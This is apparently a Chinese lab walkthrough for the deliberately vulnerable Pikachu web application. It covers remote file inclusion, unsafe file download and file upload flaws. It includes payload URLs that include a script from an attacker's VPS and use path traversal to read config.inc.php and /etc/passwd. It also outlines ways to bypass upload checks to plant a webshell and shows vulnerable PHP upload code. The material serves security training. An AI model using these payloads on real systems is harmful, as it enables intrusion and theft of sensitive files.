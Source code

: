 ### 远程文件包含
- 前提条件：
    ```
    allow_url_fopen = on  
    allow_url_include = on
    ```

payload:`` http://<目标ip>/pikachu/vul/fileinclude/fi_remote.php?filename=http://<your-VPS>/phpinfo.php&submit=%E6%8F%90%E4%BA%A4``


## Unsafe_file_downloads

**漏洞概述**

文件下载功能在很多web系统上都会出现，一般我们当点击下载链接，便会向后台发送一个下载请求，一般这个请求会包含一个需要下载的文件名称，后台在收到请求后 会开始执行下载代码，将该文件名对应的文件response给浏览器，从而完成下载。 如果后台在收到请求的文件名后,将其直接拼进下载文件的路径中而不对其进行安全判断的话，则可能会引发不安全的文件下载漏洞。
此时如果 攻击者提交的不是一个程序预期的的文件名，而是一个精心构造的路径(比如../../../etc/passwd),则很有可能会直接将该指定的文件下载下来。 从而导致后台敏感信息(密码文件、源代码等)被下载。
所以，在设计文件下载功能时，如果下载的目标文件是由前端传进来的，则一定要对传进来的文件进行安全考虑。 切记：所有与前端交互的数据都是不安全的，不能掉以轻心！

**漏洞利用**
可结合目录遍历下载漏洞

payload: ``http://<you-ip>/pikachu/vul/unsafedownload/execdownload.php?filename=../../../inc/config.inc.php``

``http://<you-ip>/pikachu/vul/unsafedownload/execdownload.php?filename=../../../../../../../../etc/passwd``

## Unsafe_file_uploads

**漏洞概述**
Web站点有很多文件上传的接口，如：
- 注册时上传头像图片(jpg,png,gif)
- 上传文件附件(doc,xls)

而在后台开发时，并没有对上传的文件进行安全考虑，或者采用了有缺陷的措施，导致攻击者可以通过一些手段绕过安全措施从而上传一些恶意文件（如：一句话木马）

从而通过对该恶意文件的访问来控制整个 Web 后台

**测试流程**
- 对文件上传的地方按照要求上传文件，查看返回结果（路径，提示等）
- 尝试上传不同类型的"恶意"文件，比如 xx.php 文件，分析结果
- 查看 html 源码，看是否通过 js 在前端做了限制，可以绕过
- 尝试使用不同方式进行绕过：黑白名单绕过 / MIME类型绕过 / 目录0x00截断绕过等(PHP 版本<5.3.4)
- 猜测或者结合其他漏洞（比如敏感信息泄露等）得到木马路径，连接测试
### client_check

**服务端核心代码**

```php
if(isset($_POST['submit'])){
//     var_dump($_FILES);
    $save_path='uploads';//指定在当前目录建立一个目录
    $upload=upload_client('uploadfile',$save_path);//调用函数
    if($upload['return']){
        $html.="<p class='notice'>文件上传成功</p><p class='notice'>文件保存的路径为:{$upload['new_path']}</p>";
    }else{
        $html.="<p class=notice>{$upload['err1or']}</p>";
    }
}
```
